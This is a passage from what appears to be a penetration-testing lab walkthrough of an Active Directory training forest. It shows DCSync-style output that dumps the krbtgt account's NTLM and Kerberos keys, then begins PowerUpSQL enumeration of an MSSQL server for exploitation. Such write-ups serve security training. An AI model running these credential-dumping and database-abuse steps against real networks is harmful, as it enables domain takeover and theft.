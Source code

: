 ```powershell
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 1:52:52 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7
    ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
    lm  - 0: 295fa3fef874b54f29fd097c204220f0

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 9fe386f0ebd8045b1826f80e3af94aed

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52
      aes128_hmac       (4096) : ac670a0db8f81733cdc7ea839187d024
      des_cbc_md5       (4096) : 977526ab75ea8691
```
# 18. Abusing MSSQL at `US-MSSQL`
- From [[2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration|1. Domain Enumeration]] we discovered a MSSQL server on `us.techcorp.local`. We can try to access it using our initial account, `us\studentuser57`. We will use **PowerUpSQL** to enumerate and possibly exploit the database.
```powershell
PS C:\Auditor> Get-SQLInstanceDomain -Verbose
VERBOSE: Grabbing SPNs from the domain for SQL Servers (MSSQL*)...
VERBOSE: Parsing SQL Server instances from SPNs...
VERBOSE: 1 instances were found.


ComputerName     : us-mssql.us.techcorp.local
Instance         : us-mssql.us.techcorp.local
DomainAccountSid : 150000052100019514814212226574150140238186983400
DomainAccount    : US-MSSQL$
DomainAccountCn  : US-MSSQL
Service          : MSSQLSvc
Spn              : MSSQLSvc/us-mssql.us.techcorp.local
LastLogon        : 12/12/2023 12:31 AM
Description      :
```
- From the output above we realize that there are no other MSSQL servers on the domain. We can find more information about this specific server.
```powershell
PS C:\Auditor> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
```